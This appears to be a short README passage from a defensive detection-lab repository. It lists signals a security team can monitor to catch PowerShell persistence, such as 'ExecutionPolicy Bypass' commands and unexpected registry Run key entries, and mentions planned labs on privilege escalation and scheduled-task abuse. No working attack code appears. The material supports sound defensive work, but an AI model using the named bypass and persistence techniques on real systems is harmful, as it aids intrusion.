

Detection Logic (SOC Perspective)

Security analysts can detect this behavior by monitoring:

Suspicious PowerShell execution
PowerShell commands containing ExecutionPolicy Bypass
Unexpected registry Run key entries
PowerShell processes launching during user login

Security monitoring tools such as SIEM platforms can correlate registry changes and PowerShell process creation events to identify persistence mechanisms.

## Future Lab Expansion

Additional detection labs will be added to this repository to simulate other common attacker techniques, including:

- Privilege escalation
- Scheduled task abuse
- Malware execution detection
